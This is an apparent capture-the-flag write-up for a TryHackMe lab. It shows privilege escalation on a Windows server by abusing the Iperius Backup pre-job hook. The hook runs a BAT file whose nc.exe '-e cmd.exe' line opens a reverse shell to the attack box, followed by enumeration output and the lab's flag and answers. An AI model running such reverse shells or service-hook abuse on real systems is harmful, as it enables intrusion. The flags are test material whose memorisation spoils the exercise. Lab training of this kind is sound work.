 ```yaml
---
title: Advent Of Cyber 3 - Day 13
date: "2021-12-13"
description: Backup privilege manipulation
tldr: Networking
tags: [backup,privilege,tryhackme,adventofcyber3,networking]

---
```


Today we are playing with a windows server that is running backup jobs. Luckily for us we can RDP to a windows server and login as McSkidy. 

Get remmina installed in case it's not already on the attack-box.
```shell 
sudo apt install remmina
```

create a RDP session to the target and login as McSkidy 

Run the imperius backup and play around a bit with the settings to see what's possible to do. As it turns out , we can create our own backup-jobs and specify commands/files to be run before and after a backup job. 

Under McSkidy's downloads folder there's a file called `nc.exe` which should suit our needs very well. 

create a BAT file to run NC and send a shell back to the attack box: 

```bat 
@echo off
C:\Users\McSkidy\Downloads\nc.exe 10.11.12.24 9997 -e cmd.exe
```

set up a listener on the attack-box: 
```shell
nc -nlvp 9997
```

configure the backup to run the bat file before a backup-job: 
![thm-aoc3-day13](thm-aoc3-day13-1.png)

then try to run the backup job and receive a shell. The problem is that we're still McSkidy...

```shell
┌──(kryssar㉿kali)-[/mnt/hgfs/VMSHARED/tryhackme]
└─$ nc -nlvp 9997            
listening on [any] 9997 ...
connect to [10.11.12.24] from (UNKNOWN) [10.10.164.170] 49758
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\McSkidy\Downloads>
```

Instead, try to run the backup-job as a service to see if the permissions are improved: 

```shell
┌──(kryssar㉿kali)-[/mnt/hgfs/VMSHARED/tryhackme]
└─$ nc -nlvp 9997
listening on [any] 9997 ...
connect to [10.11.12.24] from (UNKNOWN) [10.10.164.170] 49775
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Program Files (x86)\Iperius Backup>whoami
whoami
the-grinch-hack\thegrinch
```

now it looks better, and we can continue with the other questions and investigations. 

the username: `pepper`

```shell
PS C:\Users\thegrinch> net users

User accounts for \\THE-GRINCH-HACK
-------------------------------------------------------------------------------
Administrator            Alabaster                DefaultAccount           
Guest                    McSkidy                  pepper                   
Rudolph                  sugarplum                thegrinch                
WDAGUtilityAccount       
The command completed successfully.
```

Find the OS information: 
```shell
C:\Users\thegrinch>systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
OS Name:                   Microsoft Windows Server 2019 Datacenter
OS Version:                10.0.17763 N/A Build 17763
```

Running backup service: `IperiusSvc`

```shell
wmic service list | findstr /C:"Backup"
TRUE         TRUE        Iperius Backup Service                                   0           Win32_Service                               
FALSE            Iperius Backup Service                                           Normal        0                      IperiusSvc                                C:\Program Files (x86)\Iperius Backup\IperiusService.exe                           3180       0                        
Own Process    TRUE     Auto       .\thegrinch Running  OK      Win32_ComputerSystem     THE-GRINCH-HACK  0 0
```

path for executable file in the service: `C:\Program Files (x86)\Iperius Backup\IperiusService.exe`

find the `flag.txt` file: 

```shell
C:\Users>dir flag.txt /s /p

 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of C:\Users\thegrinch\Documents

11/10/2021  06:21 AM                13 flag.txt
```

contents of flag.txt: 
```shell 
type C:\Users\thegrinch\Documents\flag.txt
THM-736635221
```

The Grinch's schedule: 
```shell
c:\Users\thegrinch\Documents>type schedule.txt

Daily Schedule:
4:00 - wallow in self-pity 
4:30 - stare into the abyss 
5:00 - solve world hunger, tell no one
5:30 - jazzercize
6:30 - dinner with me. I cant cancel that again 
7:00 - wrestle with my self-loathing
```

answer for 5:30 appointment: `jazzercize`

EOF